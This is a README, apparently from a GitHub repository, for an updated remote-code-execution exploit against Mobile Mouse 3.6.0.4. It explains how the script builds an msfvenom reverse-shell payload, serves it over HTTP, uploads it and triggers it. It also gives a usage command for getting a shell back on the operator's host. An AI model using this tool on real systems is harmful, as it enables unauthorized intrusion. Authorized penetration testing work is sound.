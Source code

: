 # Mobile Mouse 3.6.0.4 Remote Code Execution (RCE) Exploit

Exploit by: [Chokri Hammedi](https://www.exploit-db.com/exploits/51010) (08/22)   
Fixed by: [lof1](https://github.com/lof1sec/mobile_mouse_rce/tree/main) (10/23)  
Updated by: x7331 (05/25)  

## Overview
This repository contains an exploit script targeting Mobile Mouse version 3.6.0.4, a remote control software for mobile devices. The exploit allows remote code execution (RCE) by leveraging an unauthenticated command injection vulnerability in the Mobile Mouse server running on port 9099.

## Original Exploit
The original exploit (dated August 9, 2022) works by uploading a crafted executable payload (usually generated manually via msfvenom) to the target machine's temporary directory and then remotely triggering its execution. The payload is served via an external HTTP server manually started by the attacker.

### What This Exploit Does
1. Connects to the Mobile Mouse service on the target IP (port 9099).
2. Sends crafted commands to upload a malicious payload (reverse shell executable) to the remote host.
3. Executes the uploaded payload, resulting in a reverse shell connection back to the attacker.
4. Requires an HTTP server serving the payload executable externally.

## Improvements
The updated script enhances the original exploit with:

1. **Integrated Payload Generation**: The script can now automatically generate the payload executable using msfvenom internally, removing the need to create the payload manually.
2. Uses a **temporary file to store the generated executable**, which is cleaned up after use.
3. **Built-in HTTP Server**: The script launches a background HTTP server to serve the generated (or user-supplied) payload. This removes the manual step of starting a separate HTTP server.

### Flexible Parameters:
Added command-line arguments to specify:

- `--server-port`: Port number for the HTTP server serving the payload (default: 8080).
- `--payload`: Optional argument to provide a custom payload executable path.
- `--lhost` and `--lport`: Local IP and port for reverse shell callback.
- `--target`: Target IP address.

### Improved Usage & Output:
* Clear console output for each major step.
* Cleaner error handling and feedback.
* Proper cleanup of temporary payload files.

### Usage Help & Defaults:
* If no payload is provided, auto-generation is triggered.
* The script prints helpful usage instructions if arguments are missing.

## How to Use

### Prerequisites
1. Python 3 installed.
2. `msfvenom` installed and available in your system path.
3. Network connectivity to the target Mobile Mouse server on port `9099`.

### Basic Usage
```bash
python3 exploit.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```

This will:
1. Automatically generate a reverse shell payload with `msfvenom`.
2. Start a local HTTP server on port 8080 to serve the payload.
3. Upload and execute the payload on the target.

## Disclaimer
This exploit is intended for educational purposes and authorized penetration testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.
